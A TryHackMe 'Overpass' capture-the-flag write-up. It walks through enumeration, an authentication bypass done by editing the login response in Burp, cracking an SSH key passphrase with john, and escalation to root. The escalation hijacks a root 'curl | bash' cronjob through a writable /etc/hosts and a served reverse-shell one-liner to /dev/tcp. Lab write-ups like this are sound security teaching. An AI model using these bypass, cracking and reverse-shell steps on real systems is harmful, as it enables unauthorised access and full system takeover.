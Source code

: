 ```yaml
---
title: TryHackMe | Overpass
author: Zeropio
date: 2022-10-01
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/overpass
---
```


# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
```

We can fuzz the web:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.223.211/FUZZ'

	css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
	admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 66ms]
	img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
	downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 53ms]
	aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
	                        [Status: 200, Size: 2431, Words: 582, Lines: 53, Duration: 68ms]
```

In the **/downloads** page we found some binaries we can inspect. We found an **/admin** with a login. In the source code we can find a **/login.js** with some vulnerable code:

```javascript
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

---

# Foothold

Intercept the request of login in Burp. Now, right click and select `Do intercept > Response to this request`. Forward the petition and modify the response as from:

```html
HTTP/1.1 200 OK
Date: Fri, 30 Sep 2022 21:50:12 GMT
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Connection: close

Incorrect credentials
```

To:

```html
HTTP/1.1 302 FOUND
Date: Fri, 30 Sep 2022 21:50:12 GMT
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Connection: close
location: /admin
```

Forward the request and we should get an RSA. When we try logging we get the following error:

```console
zero@pio$ ssh james@10.10.223.211 -i rsa
	Enter passphrase for key 'rsa':
```

We can use `john` to get the password:

```console
zero@pio$ ssh2john rsa
zero@pio$ john --wordlist=/usr/share/wordlists/rockyou.txt key

	james13          (rsa)
```

---

# Privilege Escalation

We can see a cronjob running:

```console
zero@pio$ cat /etc/crontab

	...
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We can see the script in the **/downloads** page. We can see which files we have write access as well as cronjob:

```console
james@overpass-prod:~$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
	/etc/hosts
	/sys/kernel/security/apparmor/.remove
	/sys/kernel/security/apparmor/.replace
	/sys/kernel/security/apparmor/.load
	/sys/kernel/security/apparmor/.access
	/sys/fs/cgroup/memory/cgroup.event_control
	/proc
```

We can try modifying `/etc/hosts`{: .filepath}.  There we can see the server domain:

```console
james@overpass-prod:~$ cat /etc/hosts
	127.0.0.1 localhost
	127.0.1.1 overpass-prod
	127.0.0.1 overpass.thm
	# The following lines are desirable for IPv6 capable hosts
	::1     ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters
```

Create the following directory in our machine:

```              
└── downloads
    └── src
        └── buildscript.sh
```

Add a one-liner in the **buildscript.sh**:

```bash
sh -i >& /dev/tcp/10.18.2.17/443 0>&1
```

Start a netcat (`nc -lvnp 443`) and an http server (`python3 -m http.server 80`) and we should receive our shell.